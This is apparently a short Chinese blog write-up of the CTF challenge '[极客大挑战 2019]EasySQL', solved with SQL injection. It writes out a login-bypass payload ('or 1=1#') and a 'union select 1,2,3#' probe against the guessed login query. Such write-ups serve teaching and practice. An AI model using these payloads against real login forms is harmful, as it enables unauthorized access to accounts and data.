 ```yaml
---
layout: post
title:  "[极客大挑战 2019]EasySQL1解题思路"
categories: Eason
tags:  ctf
author: Eason
---
```


* content
{:toc}

## 看题：
![image text](https://pic.imgdb.cn/item/64d178231ddac507ccb2311b.png)


通过观察控制台页面代码以及输入任意帐号密码后的标头可观察到使用的php表单GET形式进行验证，猜测使用验证方式为:
``select * from tableName where username= 'XXX' and password = 'XXX'``

### 解法1：

尝试使用单引号注入绕过帐号验证并用#注释密码判断语句

``select * from tableName where username = 'XXX' or 1=1#' and password = 'xxx'``

得到flag

![image text](https://pic.imgdb.cn/item/64d17b461ddac507ccb6b218.png)

### 解法2：

使用union联合查询，猜测返回列数，这里之际从1尝试到3列，出现flag
``select * from tableName where username = 'XXX' union select 1,2,3#' and password = 'xxx'``

